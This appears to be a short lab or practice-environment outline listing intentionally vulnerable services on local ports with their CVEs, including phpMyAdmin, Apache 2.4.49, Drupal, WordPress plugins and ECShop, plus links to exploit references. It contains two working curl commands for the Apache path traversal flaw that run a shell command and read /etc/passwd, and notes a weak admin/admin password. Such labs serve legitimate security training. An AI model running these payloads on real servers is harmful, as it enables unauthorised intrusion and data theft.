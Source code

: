 1. Hidden dir, password attack: [cve-2018-12613 authenticated RCE in phpmyadmin 4.8.1](https://github.com/vulhub/vulhub/tree/master/phpmyadmin/CVE-2018-12613). [EDB-ID 45020](https://www.exploit-db.com/exploits/45020)
2. Hidden dir, Apache 2.4.49 vuln, **tcp 8512**: [CVE-2021-41773 path traversal and RCE in Apache 2.4.49](https://github.com/vulhub/vulhub/tree/master/httpd/CVE-2021-41773). [EDB-ID 50383](https://www.exploit-db.com/exploits/50383)
```
Exploits:
curl -s --path-as-is -d "echo; id" "172.17.0.1:8512/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh"
curl -s --path-as-is -d "echo; id" "172.17.0.1:8512/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd"
```
3. Hidden dir, SQLi, **tcp 8513**: [CVE-2014-3704 Drupalgeddon SQLi Drupal <7.32](https://github.com/vulhub/vulhub/tree/master/drupal/CVE-2014-3704). 
4. WP: [Damn Vulnerable WordPress](https://github.com/vavkamil/dvwp). Multiple CVEs.
- Weak password (admin/admin)
- [Plugin InfiniteWP Client < 1.9.4.5 Auth Bypass](https://wpscan.com/vulnerability/10011). [EDB-ID 47939](https://www.exploit-db.com/exploits/47939)
- [WordPress File Upload < 4.13.0 - Directory Traversal to RCE](https://wpvulndb.com/vulnerabilities/10132).
- [WP Advanced Search < 3.3.4 - Unauthenticated Database Access and Remote Code Execution (RCE)](https://wpvulndb.com/vulnerabilities/10115)
- [Social Warfare <= 3.5.2 - Unauthenticated Arbitrary Settings Update](https://wpvulndb.com/vulnerabilities/9238). [EDB-ID 46794](https://www.exploit-db.com/exploits/46794)
5. SQLi ECShop 4.x, **tcp 8510**: [ECShop 4.x collection_list SQL injection](https://github.com/vulhub/vulhub/tree/master/ecshop/collection_list-sqli)
